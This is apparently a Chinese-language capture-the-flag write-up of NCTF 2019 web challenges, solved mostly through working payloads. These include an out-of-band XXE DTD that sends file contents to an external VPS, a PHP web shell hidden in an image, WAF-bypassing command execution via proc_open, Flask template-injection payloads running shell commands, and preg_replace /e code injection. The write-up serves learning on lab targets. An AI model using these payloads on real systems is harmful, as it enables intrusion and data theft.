

题目挺好玩的，很多不会，慢慢写还是有点思路的，学到了很多新知识。
Fake XML cookbook
测试了一下，没有回显，所以进行参数实体的注入，在vps上放一个xml文件，让它加载，文件内容如下
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://47.103.62.94:8080/?content=%file;'>"> %payload;因为题目提示了flag is in /flag，所以构造请求的xml内容如下
<?xml version="1.0"?> <!DOCTYPE test[ <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../../../flag"> <!ENTITY % dtd SYSTEM "http://47.103.62.94:8080/evil.xml"> %dtd; %send; ]>
<user>
<username>1</username>
<password>1</password>
<name>&xxe;</name>
</user>
最后把content的内容base64解码即是flag
ps.补充一下，后来看大佬们的解决方法是存在回显的，如下构造payload即可看到回显。
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user>
<username>&xxe;</username>
<password>1</password>
</user>easyphp
是一个函数绕过题，挺好玩的，
1st
if($_GET['num'] !== '23333' && preg_match('/^23333$/', $_GET['num'])){
echo '1st ok'."<br>";
}
else{
die('23333333');
} 可以给num传23333%0a就可以绕过%0a是换行的意思
2nd
if(is_numeric($string_1)){
$md5_1 = md5($string_1);
$md5_2 = md5($string_2);
if($md5_1 != $md5_2){
$a = strtr($md5_1, 'cxhp', '0123');
$b = strtr($md5_2, 'cxhp', '0123');
if($a == $b){
echo '2nd ok'."<br>";
}
else{
die("can u give me the right str???");
}
}
else{
die("no!!!!!!!!");
}
}
else{
die('is str1 numeric??????');
}弱类型比较，当两个字符串以0e开头且全为数字时，==会判断他们相等，返回bool(true)，如

所以就有思路啦，需要$string_1是数字，$string_1和$string_2的md5值不等，但把$string_1和$string_2进行md5算法后的值’cxhp’替换为’0123’后，$a==$b，所以我们可以找出数字，md5算法后的值为0e或ce开头，且内容全为数字或’cxhp’，写个脚本跑了一下跑出一个数字，两个字符满足要求，脚本如下，然后让str1=2120624&str2=0yFCJ即可绕过第二步。
0yFCJ 0dmRZ 2120624import hashlib
dic = '0123456789qwertyuiopASDFGHJKLzxcvbnmQWERTYUIOPasdfghjklZXCVBNM'
def md5(key):
m = hashlib.md5()
m.update(key.encode('utf-8'))
return m.hexdigest()
for a in dic:
for b in dic:
for c in dic:
for d in dic:
for e in dic:
f=a + b + c + d + e
T = md5(f)
T = T.replace('c', '0')
T = T.replace('x', '1')
T = T.replace('h', '2')
T = T.replace('p', '3')
if((T)[0:2]=='0e' and (T)[3:].isdigit()):
print(f)
break
'''
import hashlib
def md5(key):
m = hashlib.md5()
m.update(key.encode('utf-8'))
return m.hexdigest()
for i in range(1000000000):
T = md5(str(i))
T = T.replace('c', '0')
T = T.replace('x', '1')
T = T.replace('h', '2')
T = T.replace('p', '3')
if ((T)[0:2] == '0e' and (T)[3:].isdigit()):
print(i)
break
'''3rd
$query = $_SERVER['QUERY_STRING'];
if (strlen($cmd) > 8){
die("too long :(");
}
if( substr_count($query, '_') === 0 && substr_count($query, '%5f') === 0 ){
$arr = explode(' ', $cmd);
if($arr[0] !== 'ls' || $arr[0] !== 'pwd'){
if(substr_count($cmd, 'cat') === 0){
system($cmd);
}
else{
die('ban cat :) ');
}
}
else{
die('bad guy!');
}
}
else{
die('nonono _ is bad');
}
?> 这个是要让请求的字符串中不能含_和%5f(%5f为_的url编码)，但又要对q_w_q传值。。。开始想了很久没有思路，问了大佬，他说_可以用.来代替，没想到这样也可以学到了学到了，所以对q.w.q传值即可，然后就简单啦，令q.w.q=more *.*就可以啦，*是通配符，more以全屏幕的方式按页显示文本文件的内容
最终完整payload为
http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=2120624&str2=0yFCJ&q.w.q=more *.*Upload your Shell
看源码，发现了这个./index.php?action=imgs.html
点进去看了一下，就是上传点，有文件类型检测，做一个图片马，copy 1.jpg/b+2.php/a 1.jpg(文件包含解析b表示二进制，a表示ascii码)，然后发现不能有<?，这个之前考过，这样写就可以啦
<script language="php">@eval($_POST['a']);</script>上传成功后给了个地址，action包含这个地址就可以啦，最终payload
http://nctf2019.x1ct34m.com:60002/index.php?action=/var/www/html/upload-imgs/ed8c5de065c6151959b08babc2521a15/Th1s_is_a_fl4g.jpghacker_backdoor
这个题目也是绕过，waf ban了所有函数和eval，assert，但是可以用字符串拼接绕过，这个题也学到了很多知识，原来eval也可以执行一段代码。
http://nctf2019.x1ct34m.com:60004/?code=$a='php'.'info';%0a$a();&useful=index.php先看一下phpinfo()的disable_function，发现ban了很多函数还包括scandir，readfile，file_get_contents这样的函数（这里没仔细看，其实它放了一个命令执行函数proc_open）后面会发现这个问题，先不说，进行常规步骤，我是找替代scandir，readfile这样的函数，发现了glob函数和highlight_file函数可以使用。
http://nctf2019.x1ct34m.com:60004/?code=$a='var_'.'dump';%0a$b='gl'.'ob';%0a$c='../../../*';%0a$a($b($c));&useful=index.php //遍历目录http://nctf2019.x1ct34m.com:60004/?code=$a='highl'.'ight_f'.'ile';%0a$c='../../../readflag';%0a$a($c);&useful=index.php //读取内容本以为这样读flag就结束了，可是它竟然读不了。。。后来看到了readflag就知道是要用这个读啦，盲猜readflag的内容是cat /flag，所以想办法执行readflag就行了，返回去看disable_functions，ban了那么多函数，以为命令执行函数早被禁完了，但是最终发现没有ban proc_open函数，所以用它执行readflag命令，最终payload如下
http://nctf2019.x1ct34m.com:60004/?code=$test="../../.././readflag";%0a$z='p'.'ipe';%0a$b='proc'.'_open';%0a$c='var_d'.'ump';%0a$d='strea'.'m_get_c'.'ontents';%0a$e='proc_c'.'lose';%0a$a=array(array("$z","r"),array("$z","w"),array("$z","w"));%0a$fp = $b($test,$a,$zs);%0a$c($d($zs[1]));%0a$e($fp);&useful=index.phpflask
额，这是一个Flask模板注入 ，具体原因可以看这篇文章 传送门
直接上payload
http://nctf2019.x1ct34m.com:40007/{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls ..').read()}} //执行命令这里看到了flag直接cat ../flag是禁止的，于是用ascii编码绕过，最终payload为
http://nctf2019.x1ct34m.com:40007/{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read() }}True XML cookbook
也是一个xxe，要通过xxe内网探测，读一下/proc/net/arp文件，这个文件用来显示当前路由器上，client的name，ip，mac，connect_type信息，具体介绍如下
IP address HW type Flags HW address Mask Device
192.168.1.234 0x1 0x0 00:00:00:00:00:00 * eth0
192.168.1.241 0x1 0x0 00:00:00:00:00:00 * eth0
每个网络接口的arp表中dev包的统计
IP address：IP地址（直连）
HW type：硬件类型
23=0x17 strip (Metricom Starmode IP)
01=0x01 ether (Ethernet)
15=0xf dlci (Frame Relay DLCI)
Flags：
HW address：MAC 地址
Mask：
Device：所在网络接口之后一个一个试就可以了，结果如下

replace
这个题当时想到了是preg_replace()函数/e下的命令执行，随便测了下，没发现什么就没看了，现在发现其实也挺简单的，测试发现过滤了一些函数和引号，这里先给出payload，具体总结会在之后的文章，
sub=1&pat=1&rep=var_dump(scandir(chr(46).chr(46).chr(47).chr(46).chr(46).chr(47).chr(46).chr(46).chr(47))); //遍历目录sub=1&pat=1&rep=var_dump(readfile(chr(47).chr(102).chr(108).chr(97).chr(103))) //读取flag这些题涉及挺多知识的，等过几天有空把做题经常遇到的知识总结一下。